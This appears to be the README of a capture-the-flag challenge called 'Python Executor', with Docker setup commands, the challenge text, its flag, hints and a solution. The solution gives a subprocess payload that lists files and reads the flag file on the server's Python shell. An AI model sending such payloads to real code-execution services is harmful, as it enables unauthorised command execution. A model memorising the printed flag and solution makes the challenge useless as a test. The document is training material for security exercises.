 # Python Executor

! Flag is empty

### Setup

```
docker build -t python-executor .
docker run --rm -p 3107:1337 python-executor
```

### Challenge

> I made my own Python shell that executes input statements and gives you the output. Try it out :snake:

**Flag:** `ZenseCTF{3x3c_0r_5ubpr0c355_run?}`

### Hints

- I wonder if you can run shell commands on python...
- Check out the [subprocess library](https://docs.python.org/3/library/subprocess.html)

### Solution

This challenge involves remote shell code execution through python.

- Being able to run an `ls -a` on the shell will indicate the presence of a `.flag.txt`, which you can simply `cat` to get the flag.

Possible payload string:
```py
import subprocess; subprocess.run(["ls", "-lah"]); subprocess.run(["cat", ".flag.txt"])
```
